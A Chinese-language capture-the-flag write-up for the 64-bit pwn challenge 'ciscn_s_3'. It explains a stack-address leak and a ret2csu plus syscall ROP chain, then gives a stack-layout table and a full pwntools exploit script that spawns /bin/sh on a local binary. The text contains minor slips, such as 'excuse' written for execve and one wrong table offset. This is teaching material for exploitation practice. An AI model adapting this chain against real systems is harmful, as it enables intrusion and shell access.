



  > 在`64`位程序中可以通过栈溢出控制`__lib_csu_init`中的参数来控制`rdx,rsi,edi`寄存器

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

- `syscall`函数会根据`rax`的值来调用函数,例如当`rax==0x3B`时,运行`execute`
- 栈地址泄露
- ROPgadgets





1.`read`中存在溢出

2.泄露`buf`的地址写入`/bin/sh`

3.通过ROPgadgets得到控制寄存器的地址

4.最后通过`ret2csu`和`syscall`构造出`excuse('/bin/sh',0,0)`得到`shell`

*ret2csu*思路:

1. 首先跳转到`pop rbx`的位置`(csu_end)`,控制一系列寄存器,根据代码可知`r13 -> rdx ; r14 -> rsi ; r15 -> edi`

2. 再`retn`到`mov rdx,r13`的位置`(csu_font)`,这里要注意存在`call`函数,同时,要满足`cmp rbx,rbp`即`$rbx-$rbp==0`才继续运行,为了满足条件我们需要在第$1$步中提前布局
3. 运行`loc_400596`的代码,`add rsp,8`抬高了栈顶,所以我们填充栈的时候也要注意多填充`8`个位置,接着是常规的填充,根据需要,不需要则全部填充为`0xdeadbeef`直到`retn`回到程序流



泄露栈地址后第二次栈布局如下

|       | rbp  |            |       |                    |                                |
| :---: | :--: | :--------: | :---: | :----------------: | :----------------------------: |
| 0x10  |      |  padding   |       |                    | 开头为b"/bin/sh\x00"=>buf_addr |
| 0x18  |      |            |  ret  | 0x000000000040059A |            csu_end             |
| 0x20  |      |     0      |  rbx  |                    |                                |
| 0x28  |      |     1      |  rbp  |                    |                                |
| 0x30  |      |            |  r12  |    bufaddr+0x10    |           call的参数           |
| 0x38  |      |     0      |  r13  |                    |             => rdx             |
| 0x40  |      |     0      |  r14  |                    |             => rsi             |
| 0x48  |      |     0      |  r15  |                    |             => edi             |
| 0x50  |      |            | retn  | 0x0000000000400580 |           2csu_font            |
| 0x58  |      | 0xdeadbeef | rsp,8 |                    |                                |
| 0x60  | rsp  | 0xdeadbeef |  rbx  |                    |                                |
| 0x68  |      | 0xdeadbeef |  rbp  |                    |                                |
| 0x70  |      | 0xdeadbeef |  r12  |                    |                                |
| 0x78  |      | 0xdeadbeef |  r13  |                    |                                |
| 0x80  |      | 0xdeadbeef |  r14  |                    |                                |
| 0x88  |      | 0xdeadbeef |  r15  |                    |                                |
| 0x90  |      |            |  ret  | 0x00000000004004E2 |           rax = 0x3B           |
| 0x98  |      |            | retn  | 0x00000000004005a3 |          pop_rdi_addr          |
| 0x100 |      |            |  ret  | 0x0000000000400517 |            syscall             |

```python
from pwn import *
context.log_level = 'debug'
io = process('./ciscn_s_3')
#io = gdb.debug('./ciscn_s_3','break *0x00000000004004E2')
elf = ELF('./ciscn_s_3')

padding = 0x10
payload1 = b'A'*padding+p64(elf.sym['vuln'])
io.send(payload1)
io.recv(0x20)   #这个偏移主要是gdb看出来的
ebp_addr = u64(io.recv(8))
#print('ebp_addr',hex(ebp_addr))
buf_addr = ebp_addr-0x148   #buu改成-0x118
#print('buf_addr ->',hex(buf_addr))
payload2 =b'/bin/sh\x00'
payload2 = payload2.ljust(0x10,b'\x00')
payload2 += p64(0x000000000040059A)+p64(0)+p64(1)+p64(buf_addr+0x10)+p64(0)+p64(0)+p64(0)+p64(0x0000000000400580)
payload2 += p64(0xdeadbeef)*5+p64(0x00000000004004E2)+p64(0x00000000004005a3)+p64(buf_addr)+p64(0x0000000000400517)
io.send(payload2)
io.interactive()
```

主要一步步动态调试,理解程序控制流.
